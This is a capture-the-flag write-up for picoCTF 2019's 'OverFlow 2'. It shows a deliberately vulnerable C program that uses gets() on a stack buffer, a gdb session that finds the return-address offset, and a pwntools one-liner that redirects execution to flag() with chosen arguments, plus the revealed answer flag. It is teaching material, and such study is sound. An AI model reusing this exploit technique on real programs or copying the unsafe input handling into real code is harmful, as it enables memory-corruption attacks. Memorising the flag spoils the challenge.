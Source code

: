 # OverFlow 2
250 points

### Description
*"Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc on the shell server. Source."*

### Solution
For this problem, I'm going to assume you know how function arguments, return address, etc., are layed out in the stack. If you aren't familiar with this, check out my walkthrough for [OverFlow 1](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%234%20-%20OverFlow%201.md). Here's the source code for the program associated with this problem:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

This problem is very similar to OverFlow 1, but this time the `flag` function has arguments. Remember, the stack for a function call looks like this:

![C generic function call stack layout.png](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/raw/C_generic_function_call_stack_layout.png)

Keep in mind, the "top" of the stack is the bottom of this picture. So, we will be able to overwrite the return address and the function arguments. We're going to use a trick with `gdb` to quickly figure out how many characters we need in order to overwrite the return address, since it will output the address of a segmentation fault. We know we'll need at least 176 characters, since that's the size of `buf`. From there, we can just add characters in increments of 4 until we start overwriting the return address. I've spaced out these different attempts to make it more readable.
```bash
$ gdb vuln
(gdb) run <<< $(python -c "print('a'*(176+4))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+4))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[Inferior 1 (process 229061) exited normally]


(gdb) run <<< $(python -c "print('a'*(176+8))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+8))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x0804872a in main ()


(gdb) run <<< $(python -c "print('a'*(176+12))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+12))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGILL, Illegal instruction.
0x08048700 in main ()


(gdb) run <<< $(python -c "print('a'*(176+16))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+16))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```

There we go. We started overwriting the return address exactly after the 12th extra character. So, we need 12 characters between `buf` and the return address. Let's get that return address:
```bash
(gdb) x flag
0x80485e6 <flag>:       0x53e58955
```

When `flag` is called, the process will expect a return address to be on the top of the stack, above (or below, depending how you look at it) the parameters for `flag`. Since this return won't be used until after the flag is printed out, we can just fill it with bogus characters.

Finally we have to put our parameters. We will use the `p32` function from [pwntools](http://docs.pwntools.com/en/latest/) to convert the parameters and the return address to the little-endian format that we need.
```
$ python -c "from pwn import *; print('a'*(176+12) + p32(0x080485e6) + 'aaaa' + p32(0xDEADBEEF) + p32(0xC0DED00D))" | ./vuln
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa���aaaaaaaaaaaaaaaaaaa�aaaaﾭ�
```

This will give you the flag!

<details>
  <summary>Flag:</summary>
  picoCTF{arg5_and_r3turn5e919413c}
</details>

[Next Problem](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%237%20-%20NewOverFlow-1.md)

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
